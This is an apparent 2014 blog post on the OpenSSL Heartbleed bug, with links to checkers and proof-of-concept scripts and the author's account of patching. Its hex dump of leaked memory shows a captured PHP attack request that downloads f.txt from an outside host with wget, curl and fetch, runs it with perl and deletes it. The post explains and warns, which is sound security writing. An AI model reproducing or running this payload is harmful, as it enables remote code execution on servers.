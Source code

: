 ```yaml
---
layout: post
title: "1f j00 R R34d1N 7h12 m3m0ry j00 R pWN3D"
date: 2014-04-10 12:05:03 -0500
comments: false
categories:
- Networking
- Security
- Programming
- SSL
- ISP
---
```

Another huge blunder this week in the ubiquitous OpenSSL library [secadv](https://www.openssl.org/news/secadv_20140407.txt). This one's called [Heartbleed](http://heartbleed.com/). You can easily check if your services are vulnerable at [filippo.io/Heartbleed](http://filippo.io/Heartbleed/). This one is particularly scary as it allows reading random private memory directly from the server/device/etc. This may include decrypted SSL transactions, certs, private keys, and other random memory. So far I have only seen other SSL requests, and public certificate chains from my own devices.

XKCD has a comic which [explains Heartbleed](http://xkcd.com/1354/) VERY well.

<!--more-->

The implications are huge. Luckily it only affects OpenSSL 1.0.1 to 1.0.1f (and some beta 1.0.2 versions.. but you'd never run beta in production right?). 1.0.1g is not affected. Older versions are ok here as well. So my recent push for [Upgraded SSL Ciphers](/blog/2014/01/12/ssl-ciphers/) bit me in the ass. Some of the various devices affected are included in this [advisory from NSCS-FI](https://www.cert.fi/en/reports/2014/vulnerability788210.html). There are a lot of devices which use OpenSSL. There are many, many Linux/BSD distributions which shipped vulnerable OpenSSL packages/libs as well. Again, like the other SSL problems earlier this year, there will be implications from this for a long time because all sorts of embedded systems and devices won't get updated (potentially ever).

If you need to mass-scan your network(s), nmap has a [script for that](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) [docs here](http://nmap.org/nsedoc/scripts/ssl-heartbleed.html).

Here is an interesting chunk of memory pulled from a vulnerable firewall using one of several [widely](https://ccdn.tracetracker.com/ssltest.py) [available](https://gist.github.com/siboulet/10154829) [ssltest.py](https://github.com/musalbas/heartbleed-masstest/blob/master/ssltest.py) POCs. This is someone elses encrypted request body. Someone, or more likely something pretending to be a Googlebot, and sending a php file attachment with some badness in it. I would not recommend running the below hex decoded PHP code in the request, nor downloading the f.txt (and especially not executing it), unless you are a malware researcher.

```
  0200: 70 61 74 69 62 6C 65 3B 20 47 6F 6F 67 6C 65 62  patible; Googleb
  0210: 6F 74 2F 32 2E 31 3B 20 2B 68 74 74 70 3A 2F 2F  ot/2.1; +http://
  0220: 77 77 77 2E 67 6F 6F 67 6C 65 2E 63 6F 6D 2F 62  www.google.com/b
  0230: 6F 74 2E 68 74 6D 6C 29 0D 0A 43 6F 6E 74 65 6E  ot.html)..Conten
  0240: 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61 74  t-Type: applicat
  0250: 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D 75  ion/x-www-form-u
  0260: 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65  rlencoded..Conte
  0270: 6E 74 2D 4C 65 6E 67 74 68 3A 20 32 35 31 0D 0A  nt-Length: 251..
  0280: 0D 0A 3C 3F 70 68 70 20 65 63 68 6F 20 22 43 6F  ..<?php echo "Co
  0290: 6E 74 65 6E 74 2D 54 79 70 65 3A 74 65 78 74 2F  ntent-Type:text/
  02a0: 68 74 6D 6C 5C 72 5C 6E 5C 72 5C 6E 22 3B 65 63  html\r\n\r\n";ec
  02b0: 68 6F 20 22 62 75 6E 34 22 2E 70 68 70 5F 75 6E  ho "bun4".php_un
  02c0: 61 6D 65 28 29 2E 22 73 74 30 70 22 3B 73 79 73  ame()."st0p";sys
  02d0: 74 65 6D 28 22 63 64 20 2F 74 6D 70 3B 77 67 65  tem("cd /tmp;wge
  02e0: 74 20 77 67 65 74 20 68 74 74 70 3A 2F 2F 77 77  t wget http://ww
  02f0: 77 2E 63 6F 72 64 6F 62 79 74 65 2E 63 6F 6D 2F  w.cordobyte.com/
  0300: 66 2E 74 78 74 3B 63 75 72 6C 20 2D 4F 20 68 74  f.txt;curl -O ht
  0310: 74 70 3A 2F 2F 77 77 77 2E 63 6F 72 64 6F 62 79  tp://www.cordoby
  0320: 74 65 2E 63 6F 6D 2F 66 2E 74 78 74 3B 66 65 74  te.com/f.txt;fet
  0330: 63 68 20 68 74 74 70 3A 2F 2F 77 77 77 2E 63 6F  ch http://www.co
  0340: 72 64 6F 62 79 74 65 2E 63 6F 6D 2F 66 2E 74 78  rdobyte.com/f.tx
  0350: 74 3B 70 65 72 6C 20 66 2E 74 78 74 3B 70 65 72  t;perl f.txt;per
  0360: 6C 20 66 2E 74 78 74 3B 72 6D 20 2D 72 66 20 66  l f.txt;rm -rf f
  0370: 2E 2A 22 29 3B 65 78 69 74 3B 20 3F 3E 87 5C 06  .*");exit; ?>.\.
  0380: 85 8C 9C E2 46 93 40 CF 62 D0 F7 E7 B4 4A AB 3A  ....F.@.b....J.:
  0390: 80 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E  ................
```

**Update several days later**:

So the majority of the pain is over. Systems are patched and updated. Passwords changed. Certificates reissued (this was surprisingly easy!) and re-installed on various devices. Luckily for my usage, all of my OpenSSL 1.0.1 systems had PFS enabled, so private data should be private.
